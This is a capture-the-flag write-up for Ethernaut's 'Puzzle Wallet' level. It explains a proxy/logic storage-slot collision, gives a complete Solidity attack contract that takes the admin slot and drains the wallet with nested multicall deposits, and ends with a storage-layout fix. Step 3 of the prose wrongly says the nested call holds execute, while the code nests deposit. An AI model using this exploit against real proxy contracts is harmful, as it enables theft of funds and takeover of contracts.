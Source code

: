 ```yaml
---
title: Level 24 - Puzzle Wallet
slug: level-24
published: 06-04-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut24.svg
---
```


## Objectives

- Become `admin` of the proxy.

## Vulnerabilities

### Different storage variables between proxy and logic contracts

The `PuzzleProxy` and `PuzzleWallet` contracts don't have the same storage variables. This is dangerous since
a proxy uses `delegatecall` which can cause the proxy's storage slots to be **overwritten** using the `PuzzleWallet`'s logic.

## Exploit

1. Write and deploy the following `PuzzleWalletHack` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

interface IWallet {
    function admin() external view returns (address);
    function whitelisted(address addr) external view returns (bool);
    function balances(address addr) external view returns (uint256);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract PuzzleWalletHack {
    IWallet target;

    constructor(address _targetAddress) {
        target = IWallet(_targetAddress);
    }

    function getWhiteListed() external {
        target.proposeNewAdmin(address(this));
        target.addToWhitelist(address(this));
        require(target.whitelisted(address(this)), "Get WhiteListed failed!");
    }

    function emptyTargetBalance() external payable {
        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(target.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = deposit_data[0];
        data[1] = abi.encodeWithSelector(target.multicall.selector, deposit_data);

        target.multicall{value: 0.001 ether}(data);

        target.execute(msg.sender, 0.002 ether, "");
        require(target.balances(address(this)) == 0, "Empty balance failed!");
    }

    function becomeAdmin() external {
        target.setMaxBalance(uint256(uint160(msg.sender)));
        require(target.admin() == msg.sender, "Overwrite admin failed!");
        selfdestruct(payable(msg.sender));
    }
}
```

The hack logic was split in three different functions but could have all been included inside the constructor.

2. Call `getWhiteListed`. This function does two things:

First it calls `proposeNewAdmin(address(this))` from the _proxy contract_. This sets the _hack contract_'s address as `pendingAdmin`. This
values is stored in **slot 0**. This slot **collides** with the `owner` varaible of the _logic contract_. We have therefore
changed that value also making our hack contract **the new owner**!

Second, it calls `addToWhitelist(address(this))` from the _logic contract_. This function has the `onlyOwner` modifer as its
only _access control_. Since the _hack contract_'s address is now the owner, it sets the _contract address_ as `whitelisted`.

3. Call `emptyTargetBalance` with a value of at least 0.002 Eth. The goal here is to empty the balance of _PuzzleWallet_. The expoit we use is making one transaction
   with `value` and withdrawing the amount twice using `multicall`.

   `execute` is the function used to witdraw Eth from the _logic contract_.

   `multicall` is a function that enables us to make multiple function calls at once on the _logic contract_ with a single
   `msg.amount`. A `require` function verifies that `execute` is not called twice. The exploit relies in calling `multicall`
   with `execute` followed by `multicall` with `execute` as it's parameter. Nested `delegatecall`s share the same `msg.value`
   but can execute logic in different places.

   If the transaction is successful, the balance of the _logic contract_ is now 0.

4. Call `becomeAdmin`. This function calls `setMaxBalance(uint256(uint160(msg.sender)))` which changes `maxBalance` to a uint256
   with the 20bytes of the _hack contract_ address as it's rightmost bytes. This variable is in slot 1 which overrites `admin` of
   the _proxy contract_. This statisfies the goal of this challenge!

## Suggested mitigation

1. Start `PuzzleWallet` with the storage variable of `PuzzleProxy` and only then, add it's own valriables.

```solidity
contract PuzzleWallet {
    address public pendingAdmin;
    address public admin;
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    // Rest of the contract code...
}
```
